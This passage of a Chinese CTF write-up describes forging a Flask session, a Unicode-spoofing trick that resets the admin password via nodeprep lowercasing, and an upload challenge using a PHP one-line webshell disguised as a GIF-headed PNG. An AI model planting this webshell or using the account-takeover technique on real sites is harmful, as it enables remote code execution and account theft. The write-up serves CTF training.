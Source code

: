 发现这个用的是单引号那个是双引号
 同时这个把base64直接解码了

再进行encode

用法：encode -s "钥匙" -t "明文"

钥匙在源码找到的

![image-20230419204726351](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230419204726351.png)

![image-20230419204645536](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230419204645536.png)

修改session的值，刷新就行

![image-20230419204835926](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230419204835926.png)

姿势三：Unicode欺骗

![image-20230419205242000](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230419205242000.png)

发现注册和登录以及修改密码处只是对数据进行了**strlower()函数**小写化，在末尾查看函数

**strlower()函数**的作用是小写化name

![image-20230419205333918](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230419205333918.png)

**nodeprep.prepare**这个方法是将大写字母转换成小写字母，但是它存在一个问题：它会将unicode编码的ᴬ转化成A，而A在调用一次nodeprep.prepare函数会把A转换成a

这个字符可以在后面网站找到，https://unicode-table.com/en/1D2E/

1.如果用ᴬᴰᴹᴵᴺ注册，注册经过处理，储存在数据库就变成了 ADMIN

2.登录后，加密储存在session 的也是ADMIN

3.修改密码后，取出session进行解密name也是ADMIN

4.再调用一次strlower函数就变成了admin

5.这时admin 的密码就变成了自定义修改后的密码。登录后就得到 flag 。

## [MRCTF2020]你传你🐎呢

先上传一句话木马。并且将下面的内容保存成文件2.png

内容：

```php
GIF89a? 
<script language="php">eval($_POST['hack']);</script>
```

直接上传成功了![image-20230420141955359](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420141955359.png)



用蚁剑还是连不上

**.htaccess是什么**
